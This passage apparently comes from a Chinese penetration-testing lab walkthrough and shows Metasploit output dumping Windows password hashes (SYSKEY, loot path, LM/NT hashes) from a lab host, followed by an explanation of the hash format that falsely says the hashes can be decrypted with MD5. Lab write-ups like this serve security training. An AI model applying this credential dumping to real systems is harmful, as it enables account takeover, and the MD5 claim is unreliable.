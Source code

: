 [![](assets/1701827767-573900ad4a84bac2d2786642415f73f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085347-bfa4cd6a-9308-1.png)

```plain
[] 针对 STU1 运行模块
[] 如果连接，哈希值将保存到数据库中。
[+] 哈希值将以 JtR 密码文件格式保存在战利品中： 
[] /root/.msf4/loot/20211105144910_default_192.168.254.130_windows.hashes_151319.txt
[] 倾销密码哈希... 
[] 以 SYSTEM 身份运行，从注册表中提取哈希值
[] 获取启动密钥... 
[] 使用 SYSKEY fd4639f4e27c79683ae9fee56b44393f 计算 hboot 密钥...
[] 获取用户列表和密钥... 
[] 解密用户密钥...
[] 转储密码提示...
[] 在这个系统上没有有密码提示的用户
[] 倾销密码哈希... 
[+] 管理员：500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] srn7:1001:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```plain
密码格式
用户名称：RID:LM-HASH 值:NT-HASH 值
rid 是 windows 系统账户对应固定的值，类似于 linux 的 uid，gid 号，500 为 administrator，501 为 guest 等
LM-Hash 和 NT-Hash，这是对同一个密码的两种不同的加密方式，可采用 MD5 解密；
```

## 远程桌面连接：
